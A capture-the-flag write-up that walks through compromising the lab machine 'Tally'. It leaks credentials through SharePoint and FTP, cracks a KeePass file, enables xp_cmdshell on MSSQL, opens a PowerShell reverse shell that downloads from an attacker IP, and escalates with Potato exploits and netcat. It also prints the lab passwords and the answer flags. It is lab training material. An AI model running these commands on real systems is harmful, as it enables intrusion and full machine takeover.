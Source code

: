 port 445(smb)
port 5985(winrm)
port 21 (ftp)
port 80 (http)

With port 445 (smb) open, I use crackmapexec to gather information about the victim machine
``` bash
❯ crackmapexec smb 10.10.10.59
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)

```

Now I'll attempt to list the shared resources via SMB
``` bash
❯ smbmap -H 10.10.10.59 -u 'null'
[!] Authentication error on 10.10.10.59

```

Access is denied, so I need a valid credentials to list shared resources

Port 80 is open, so I use whatweb to gather  information about the websiite
``` bash
❯ whatweb 10.10.10.59
http://10.10.10.59 [302 Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.59], Microsoft-IIS[10.0], Microsoft-Sharepoint[15.0.0.4420], RedirectLocation[http://10.10.10.59/default.aspx], Title[Document Moved], UncommonHeaders[x-sharepointhealthscore,sprequestguid,request-id,sprequestduration,spiislatency,microsoftsharepointteamservices,x-content-type-options,x-ms-invokeapp], X-Frame-Options[SAMEORIGIN], X-Powered-By[ASP.NET]

http://10.10.10.59/default.aspx [200 OK] ASP_NET[4.0.30319], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.59], MetaGenerator[Microsoft SharePoint], Microsoft-IIS[10.0], Microsoft-Sharepoint[15.0.0.4420], Script[text/javascript], Title[Home - Home][Title element contains newline(s)!], UncommonHeaders[x-sharepointhealthscore,sprequestguid,request-id,sprequestduration,spiislatency,microsoftsharepointteamservices,x-content-type-options,x-ms-invokeapp], X-Frame-Options[SAMEORIGIN], X-Powered-By[ASP.NET], X-UA-Compatible[IE=10]

```

I see some information related to sharepoint (_SharePoint_ is a web-based collaborative platform that integrates natively with Microsoft 365)

While exploring the website I discover the sharepoint site and attempt to find interesting routes by fuzzing. I use google for this and review sharepoint pentesting  reports to discover potential routes

``` bash
http://10.10.10.59/_layouts/15/viewlsts.aspx -> DOcuments

```

Within the website, I find an ftp-details file. After downloading it, I obtain credentials to connect via FTP
``` bash 
FTP details
ftp_user
hostname: tally

workgroup: htb.local

password: UTDRSCH53c"$6hys

Please create your own user folder upon logging in

```

After connecting to the ftp service, I access leaked information, Given the volume of data,  I use the curlftpfs tool to create a mount for easier access to all the FTP information

``` bash
curlftpfs 10.10.10.59 /mnt/ftp/ -o user=ftp_user:UTDRSCH53c"$6hys
tree -fas
cp /User/Tim/Files/tim.kdbx .
```

I obtain a .kdbx file, which is a Data file created by KePass Password Safe, and there is a way to crack it
I'll use the keepassxc tool to examine its contents, However it's protected ,so I will use john to crack it.
```
keepass2john tim.kdbx > hash
❯ john --wordlist=~/Documents/wordlist/rockyou.txt hash
Warning: detected hash type "KeePass", but the string is also recognized as "KeePass-opencl"
Use the "--format=KeePass-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**simplementeyo    (tim)**
1g 0:00:00:11 DONE (2023-09-22 12:17) 0.08665g/s 2140p/s 2140c/s 2140C/s teamomivida..rylee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

With the help of john I obtain credentials for the user tim, so Now I can use keepassxc to see the information of the .kdbx file

I get more credentials, this time for a shared resources
``` bash
Finance:Acc0unting

```

Using these credentials, I revisit smbmap to list shared resources via SMB

``` bash
smbmap -H 10.10.10.59 -u 'Finance' -p 'Acc0unting'
[+] IP: 10.10.10.59:445	Name: unknown             	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ACCT                                              	READ ONLY	
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
```

There are some resources, but one (ACCT) have the privileged READ ONLY
I'll list the information of this resource

``` bash
smbmap -H 10.10.10.59 -u 'Finance' -p 'Acc0unting' -r ACCT
[+] IP: 10.10.10.59:445	Name: unknown             	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ACCT                                              	READ ONLY	
	.\ACCT\\*
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	.
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	..
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Customers
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Fees
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Invoices
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Jess
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Payroll
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Reports
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Tax
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Transactions
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	zz_Archived
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	zz_Migration

```

there are a lot of directories, I opt for the same approach as before but this time I use the  "mount -t cifs" command
``` bash
mount -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,rw
tree -fas
```

there are a backup directory, maybe some credentials are there.
``` bash
mount -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,rw
tree -fas
```

Inside this directory I discover various binaries and. One binary, "tester.exe" àrticulary piques my interest.
I use the "strings" tool inspect its contents and I found more credentials, this time for a sql server
``` bash
/mnt/smbshred/zz_Migration/Binaries/New folder ╱ ✔ ❯ strings tester.exe | less                 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
```

With the port 1433 open, I can connect to the sql server using the impacket tool with these credentials

``` bash
mssqlclient.py WORKGROUP/sa:GWE3V65#6KFH93@4GWTG2G@10.10.10.59
#try xp_cmdshell "whoami" if is off you can try to configure it -> 
SQL> sp_configure "show advanced options", 1 -> reconfigure -> sp_configure "xp_cmdshell", 1 
# now I can execute commands and try to execute a reverse shell
xp_cmdshell "whoami"
```

Now that I can execute commands on the victim machine, I'm going to use Invoce-PowerShellTCP.ps1 to stablish a reverse shell

``` bash
# on the victim machine
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.5/Invoke.ps1\")"

# On my machine
python -m http.server 80
rlwrap nc -nlvp 1234

```


Having gained access to the victim machine, it's time to escalate privileges

``` bash
whoami /priv

```

The user has the "SeImpersonatePrivilege" privilege, which can be exploited with the Juicy Potato tool
``` bash
#On my machine
sudo python -m http.server 80

# On victim machine
iwr -uri http://10.10.14.5/juicypotato.exe -OutFile juicy.exe
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c net user kvzlx **colombia**123 /add" -> create a user
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c net localgroup Administrators kvzlx /add" -> put the user in the administrator group
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -> put the user in the Remote management users to can connect with via evil-winrm


#I have problem with Juicy potato so I use SweetPotato.exe and a nc64.exe binary (netcat)
.\SweetPotato.exe -p nc64.exe -a "-e powershell 10.10.14.5 1234"

  
```

this completes the privilege escalation, and I now have full control over the machine.
User flag > e806ef7ecb81f2a281c36f8b06f4d770
root flag > 7cac06b6c854ced20c5036f6fe13ac0b

